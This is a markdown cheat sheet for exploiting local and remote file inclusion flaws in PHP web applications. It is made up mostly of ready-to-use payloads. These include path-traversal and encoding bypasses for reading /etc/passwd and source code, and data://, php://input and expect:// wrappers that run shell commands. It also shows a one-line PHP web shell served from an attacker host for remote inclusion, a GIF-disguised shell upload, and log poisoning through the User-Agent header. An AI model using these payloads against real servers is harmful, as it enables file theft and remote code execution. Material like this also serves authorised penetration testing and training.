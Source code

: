 # 🔥 File Inclusion (LFI / RFI) Exploitation Cheat-Sheet

---

> 📖 Intro

```c
File Inclusion vulnerabilities occur when user-controlled input is passed to file-handling functions (e.g., PHP include, NodeJS fs.readFile, Java import, .NET @Html.Partial).  
They allow attackers to read files, leak source code, or even achieve RCE  
We distinguish between:
- LFI (Local File Inclusion) → Reading local files
- RFI (Remote File Inclusion) → Including remote files/scripts
```


---

## 🗂️ Local File Inclusion (LFI)

>  Basic Payloads

```bash
# Linux passwd file
?page=/etc/passwd                                  (/etc/passwd)

# Windows boot.ini
?page=C:\Windows\boot.ini                          (Windows boot.ini)

# Path traversal
?page=../../../../etc/passwd                       (read passwd with traversal)
?page=....//....//....//etc/passwd                 (recursive bypass)

# Double encoding
?page=%2e%2e%2f%2e%2e%2fetc%2fpasswd               (../etc/passwd)
?page=..%252f..%252f..%252fetc%252fpasswd          (double encoded)
```

> Prefix / Extension Bypasses

```c
# Extension appended (e.g. .php auto added)
?page=/etc/passwd%00                              (null byte, old PHP)
?page=/etc/passwd/.                               (path truncation trick)
?page=/etc/passwd%23                              (# comment bypass in some cases)
```

> PHP Filters (Source Disclosure)
```c
# Base64 encode PHP source
?page=php://filter/read=convert.base64-encode/resource=index
(returns base64 of index.php)

# Decode on attacker side
echo 'BASE64_STRING' | base64 -d
```

> Wrappers for Code Execution

```c
# Data wrapper (if allow_url_include=On)
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==&cmd=id
(executes system($_GET['cmd']))

# Input wrapper
curl -X POST --data '<?php system($_GET["cmd"]); ?>' \
"http://target/index.php?page=php://input&cmd=id"

# Expect wrapper (if enabled)
?page=expect://id
```

## Remote File Inclusion - RFI

> HTTP Hosting

```c
# Attacker hosts shell.php
echo '<?php system($_GET["cmd"]); ?>' > shell.php
python3 -m http.server 8000

# Victim includes it
?page=http://<ATTACKER_IP>:8000/shell.php&cmd=id
```

> FTP Hosting

```c
python -m pyftpdlib -p 21
?page=ftp://<IP>/shell.php&cmd=id
```

> SMB Hosting (Windows targets)

```c
impacket-smbserver share $(pwd)
?page=\\<IP>\share\shell.php&cmd=id
```

---
## 🖼️ File Upload + LFI → RCE


> 🖼️ File Upload + LFI → RCE

```c
# Malicious GIF upload
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
Upload → /profile_images/shell.gif

# Include via LFI
?page=./profile_images/shell.gif&cmd=id
``` 

> 📜 Log Poisoning

```c
# Poison User-Agent
curl -s http://target/ -H "User-Agent: <?php system(\$_GET['cmd']); ?>"

# Include access.log
?page=/var/log/apache2/access.log&cmd=id
```

> 🔎 Automated Fuzzing

```c
# Discover params
ffuf -w wordlist.txt:FUZZ -u http://target/index.php?FUZZ=value

# LFI wordlist
ffuf -w LFI-Jhaddix.txt:FUZZ -u http://target/index.php?page=FUZZ
```





